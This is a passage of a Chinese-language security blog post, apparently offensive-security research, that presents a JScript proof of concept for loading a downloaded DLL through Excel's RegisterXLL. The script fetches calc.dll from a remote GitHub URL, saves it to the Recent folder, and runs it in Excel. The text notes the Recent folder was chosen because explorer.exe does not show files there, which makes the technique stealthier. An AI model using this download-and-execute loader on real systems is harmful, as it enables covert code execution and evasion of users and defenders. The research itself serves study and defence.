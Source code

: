 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-2.png)

**注：**

选择保存在Recent目录是为了提高隐蔽性

保存在Recent目录，通过explorer.exe无法查看下载的dll，详情如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/ExcelDllLoader/master/1.gif)

但在cmd下能够查看下载的dll，详情如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/ExcelDllLoader/master/3.png)

在其他目录不存在这个问题，详情如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/ExcelDllLoader/master/2.gif)

为保证js和rundll32利用代码格式对应，原js代码作相应优化，最终代码为：

```
FileSys = WScript.CreateObject("Scripting.FileSystemObject");   
if (FileSys.FolderExists("c:\\Program Files\\Microsoft Office"))   
{   
	WScript.Echo("[+] Find Microsoft Office."); 
	WScript.Echo("[+] Download file...");
	h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
	h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);
	h.Send();
	s=new ActiveXObject("ADODB.Stream");
	s.Type=1;
	s.Open();
	s.Write(h.ResponseBody);
	x=new ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";
	s.SaveToFile(x,2);

	WScript.Echo("[+] Download Success.");
	WScript.Echo("[+] Load dll...");	 
	e= new ActiveXObject("Excel.Application");
	e.RegisterXLL(x);
	WScript.Echo("[+] Load dll Success.");	  
}
else
{
	WScript.Echo("[!] I can't find Microsoft Office!");  	   
}
```

**注：**

相关代码已上传至Github，完整POC可参照：

https://github.com/3gstudent/ExcelDllLoader

## 0x04 扩展用法
---
